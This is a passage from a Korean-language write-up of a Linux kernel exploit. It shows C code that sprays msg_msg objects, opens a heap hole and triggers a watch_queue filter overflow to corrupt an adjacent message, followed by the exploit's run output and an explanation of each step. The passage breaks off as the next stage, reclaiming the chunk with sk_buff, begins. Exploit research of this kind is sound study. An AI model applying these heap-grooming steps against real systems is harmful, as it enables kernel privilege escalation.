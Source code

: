```c
        msg_msg_spray(MSG_MSG_SPRAY_COUNT);
        msg_msg_make_hole();
        printf("[STEP1-2] Trigger vulnerability\n");
        trigger_vuln();
        printf("[STEP1-3] Check corrupted msg_msg\n");
        if (check_trigger() != -1)
        {
            break;
        }
        printf("failed corrupt msg_msg_pointer\n");
        msg_msg_clean();
    }
}
```

`msg_msg_spray()` 함수를 통해 96바이트 -> 1024 바이트 매시지 큐를 생성하고, `msg_msg_make_hole()` 함수를 통해 중간의 96바이트 `msg_msg` 메시지를 해제하여 hole 을 생성한다. 

그 다음 `trigger_vuln()` 함수를 이용해 96짜리 `watch_filter`를 할당하고, 마지막 filter의 type을 0x30a 로 작성하여, 인접한 `msg_msg` 의 `next` 필드의 비트를 바꾼다. 

마지막으로 `check_trigger()` 함수를 이용해 넣었던 데이터들을 다시 확인함으로써 몇번 큐에 있는 `msg_msg` 메시지가 corruption 되었는지 확인한다. 

만약 `msg_msg` 가 변조되지 않았다면 모든 메시지를 clean 한 후, 다시 스프레이를 진행한다. 

다음과 같이 `msg_msg` 가 변조된 것을 확인 할 수 있었다.

```bash
~ # ./exploit 
[STEP1-1] Spray msg_msg and make hole
[STEP1-2] Trigger vulnerability
[STEP1-3] Check corrupted msg_msg
failed corrupt msg_msg_pointer
[STEP1-1] Spray msg_msg and make hole
[STEP1-2] Trigger vulnerability
[STEP1-3] Check corrupted msg_msg
failed corrupt msg_msg_pointer
[STEP1-1] Spray msg_msg and make hole
[STEP1-2] Trigger vulnerability
[STEP1-3] Check corrupted msg_msg
triggered index: 971, 3c5
```

이제 다음 단계로 넘어가보자.

## STEP2. Free corrupted msg_msg chunk & Write with sk_buff

위의 결과를 보면 다른 index 를 가지고 있는 청크를 가리키게 되있는 것을 볼 수 있다. 

이 생태를 그림으로 설명하면 다음과 같다. 
